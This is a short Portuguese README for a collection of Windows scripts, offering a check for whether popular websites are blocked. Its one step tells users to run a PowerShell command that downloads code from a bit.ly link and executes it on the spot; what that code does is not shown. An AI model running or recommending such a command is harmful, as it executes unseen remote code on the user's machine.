 <p align="center"><img src="https://i.imgur.com/YMCepIi.png" alt="Shortcut Scripts Logo"></p>

<h1 align="center">Shortcut Scripts</h1>

<p align="center">Coleção de scripts para Windows que automatizam tarefas comuns, testes e verificações rápidas via PowerShell e Batch.</p>

<hr>

## 🌐 Teste de Sites Bloqueados

Verifica se sites populares de streaming, redes sociais e música estão acessíveis ou bloqueados.

### Método PowerShell ❤️

1. **Abra o PowerShell**  
   Clique no **Menu Iniciar**, digite `PowerShell` e abra.

2. **Execute o comando abaixo:**
   ```powershell
   irm "https://bit.ly/3VHWr3C" | iex

---

## ⚠️ Aviso
Use por sua conta e risco. Sempre revise o código antes de executar.
